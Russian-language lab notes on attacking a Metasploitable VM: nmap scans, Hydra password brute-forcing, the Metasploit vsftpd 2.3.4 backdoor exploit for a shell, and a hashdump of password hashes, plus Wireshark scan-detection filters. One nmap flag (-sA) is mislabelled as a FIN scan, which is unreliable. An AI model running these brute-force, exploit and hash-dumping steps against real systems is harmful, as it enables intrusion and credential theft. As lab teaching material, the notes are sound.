



# Уязвимости и атаки на информационные системы
- Качаем дистриб Kali linux 
- Качаем  виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/

Просканируйте эту виртуальную машину, используя nmap.
Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.
Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.
Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.


## NMAP: основные режимы сканирования
-sS: TCP SYN-сканирование

-sT: TCP connect-сканирование

-sА: TCP FIN-сканирование

-sU: UDP-сканирование

-sX: Xmas-сканирование

-PR: ARP-пинг

--traceroute: трассировка пути

-R: разрешение имен DNS

-n: запрещение разрешения имен DNS

-sL: создать список хостов


 Попробуем разные режимы 


Агрессивный режим сканирования (-A) – наиболее часто используемый


-sV: версия софта


Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.


## эксперемент с HYDRA 
создадим два файлика 

а в идеале качаем готовый seclist
```
 hydra -L user.txt -P pwd.txt ftp://192.168.31.121
```   

```
hydra -L user.txt -P pwd.txt 192.168.31.121 http-get
```



# METASPLOIT
```
kali@kali:~$ sudo service postgresql start
kali@kali:~$ sudo msfdb init
```
```
kali@kali:~$ sudo msfconsole
msf5 > db_status
```



подключим модуль сканнера 
```
use auxiliary/scanner/ftp/ftp_version
```

Добавим переменнную ``RHOSTS``
```
setg RHOSTS 192.168.31.121
run
```

Получили баннер


Подключаем модуль
```
use exploit/unix/ftp/vsftpd_234_backdoor
run
```


попали в shell



Для сбора хешей паролей
Переведем нашу сессию в фоновый режим: ``Ctrl-Z``
```
sessions -l проверим сессии
```
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > use post/linux/gather/hashdump
```
```
msf5 post(linux/gather/hashdump) > show options
```

```
msf5 post(linux/gather/hashdump) > set session 1
msf5 post(linux/gather/hashdump) > run
```


Мы получили хэши паролей пользователей сервера.


Если вы хотите перейти к сессии №1 (например, к shell после эксплуатации vsftpd):

```
sessions -i 1
```
Если сессия "висит" в фоне
``jobs -l ``   # проверка фоновых задач
``fg %1  ``    # вернуться к задаче №1

# Анализ трафика с помощью Wireshark


Специфические фильтры для каждого типа

SYN-сканирование:

```tcp.flags.syn == 1 && tcp.flags.ack == 0```

FIN-сканирование:


```tcp.flags.fin == 1 && tcp.flags.ack == 0```

Xmas-сканирование:


```tcp.flags.fin == 1 && tcp.flags.psh == 1 && tcp.flags.urg == 1```
